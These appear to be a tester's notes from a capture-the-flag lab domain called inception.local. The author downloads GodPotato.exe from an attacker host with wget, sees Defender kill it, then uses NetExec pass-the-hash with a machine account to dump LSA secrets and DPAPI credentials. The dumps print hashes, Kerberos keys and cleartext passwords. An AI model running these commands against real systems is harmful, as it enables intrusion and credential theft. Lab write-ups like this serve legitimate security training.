

This actually worked and got a shell!  


Now can i upload and run Godpotato.exe?

```
PS C:\windows\tasks> wget http://10.9.20.13:8080/GodPotato.exe -outfile GodPotato.exe
wget http://10.9.20.13:8080/GodPotato.exe -outfile GodPotato.exe
PS C:\windows\tasks> dir
dir


    Directory: C:\windows\tasks


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----         6/28/2024   4:09 AM          57344 GodPotato.exe
-a----         6/28/2024   4:01 AM          45272 nc.exe


PS C:\windows\tasks>
```

Seems like I can upload it, but can I run it?



Nah it got killed by defender. Totally loose of time hehe. I will move on to the gitlab instance.

# Need to come back with Admin creds

With DA credentials I will try to read the LSA secrets:

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads/Cybernetics/inception.local]
└─# NetExec smb 10.9.40.201 -u 'SVC_GITLAB_RN$' -H A40DEF757A23639CA85B3C198B411D12 -d "inception.local" --lsa
SMB         10.9.40.201     445    INWKT002         [*] Windows 10 / Server 2019 Build 19041 x64 (name:INWKT002) (domain:inception.local) (signing:True) (SMBv1:False)
SMB         10.9.40.201     445    INWKT002         [+] inception.local\SVC_GITLAB_RN$:A40DEF757A23639CA85B3C198B411D12 (Pwn3d!)
SMB         10.9.40.201     445    INWKT002         [+] Dumping LSA secrets
SMB         10.9.40.201     445    INWKT002         INCEPTION.LOCAL/Administrator:$DCC2$10240#Administrator#c04a32035dbcc97e3e0297c0bde44b0b: (2024-03-13 11:22:29)
SMB         10.9.40.201     445    INWKT002         INCEPTION.LOCAL/svc_mssql:$DCC2$10240#svc_mssql#ae302617468427a3c4599359224c3c03: (2024-06-28 03:16:36)
SMB         10.9.40.201     445    INWKT002         INCEPTION.LOCAL/Robert.Martinez:$DCC2$10240#Robert.Martinez#a4ae8b7879c6af171012762af3848c9a: (2020-08-20 00:23:11)
SMB         10.9.40.201     445    INWKT002         inception\INWKT002$:aes256-cts-hmac-sha1-96:59c7757765b376ccf1346151e344cabb2d531bbb0185d0e93b3844dc3e419240
SMB         10.9.40.201     445    INWKT002         inception\INWKT002$:aes128-cts-hmac-sha1-96:2c1dd2e5f8afd9883028deb015d16a88
SMB         10.9.40.201     445    INWKT002         inception\INWKT002$:des-cbc-md5:c86d458cdfb5f8ba
SMB         10.9.40.201     445    INWKT002         inception\INWKT002$:plain_password_hex:480066002600780066003e0033002d005c00750071002200510056007500760068003d0042002300470040004800540030003000400071006f0056005900590058006500470045005a003b0052004e0076004100450045003600460025005e004f005f00510041007700540053005e0024004d0040002e005d0078006b00620058005d002a00770043002b002a006d003d002e007a00260076003e0027003d004500590048002e0031005f0065003c00270070006100200053007a0055002f004500760070005b00380046003300320032004b0047002800700067003400290023004a005c0059007500650060004000
SMB         10.9.40.201     445    INWKT002         inception\INWKT002$:aad3b435b51404eeaad3b435b51404ee:29a1486907ff834167e0b90116d5fec2:::
SMB         10.9.40.201     445    INWKT002         inception.local\Robert.Martinez:k!LnmIQNa5&D>
SMB         10.9.40.201     445    INWKT002         dpapi_machinekey:0xfd947ff5137a725457fc14be6e5541c22a8d46a5
dpapi_userkey:0x29a5c7394dfdcf2e2d0ad5ddddb1df07669ed2c9
SMB         10.9.40.201     445    INWKT002         NL$KM:f785dc4f81cd3d214f0d492a838cab9acb7d57d7e82f24773029d8d06de0ee5ec7486c176482beb5c257fd7735d420d373c6715e2e9d9c2904516369992e629a
SMB         10.9.40.201     445    INWKT002         inception.local\svc_mssql:ew67KNfh?_9}5+jFSZM6N4
SMB         10.9.40.201     445    INWKT002         [+] Dumped 12 LSA secrets to /root/.nxc/logs/INWKT002_10.9.40.201_2024-06-28_150427.secrets and /root/.nxc/logs/INWKT002_10.9.40.201_2024-06-28_150427.cached
```

This gave me 2 extra cleartext credentials.

And the dpapi didn't gave something new so far:

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads/Cybernetics/inception.local]
└─# NetExec smb 10.9.40.201 -u 'SVC_GITLAB_RN$' -H A40DEF757A23639CA85B3C198B411D12 -d "inception.local" --dpapi
SMB         10.9.40.201     445    INWKT002         [*] Windows 10 / Server 2019 Build 19041 x64 (name:INWKT002) (domain:inception.local) (signing:True) (SMBv1:False)
SMB         10.9.40.201     445    INWKT002         [+] inception.local\SVC_GITLAB_RN$:A40DEF757A23639CA85B3C198B411D12 (Pwn3d!)
SMB         10.9.40.201     445    INWKT002         [+] Loading domain backupkey from nxcdb...
SMB         10.9.40.201     445    INWKT002         [*] Collecting User and Machine masterkeys, grab a coffee and be patient...
SMB         10.9.40.201     445    INWKT002         [+] Got 28 decrypted masterkeys. Looting secrets...
SMB         10.9.40.201     445    INWKT002         [SYSTEM][CREDENTIAL] Domain:batch=TaskScheduler:Task:{99B6AD74-4B7E-4CD9-B76D-EA2AB4AFB9F2} - WINDOWS-10\Administrator:6IVx7cxECM6m57WVjrqfH1gvluKnvN
```

I also did a login via wmiexec but no flags were saved here!

&nbsp;

&nbsp;

&nbsp;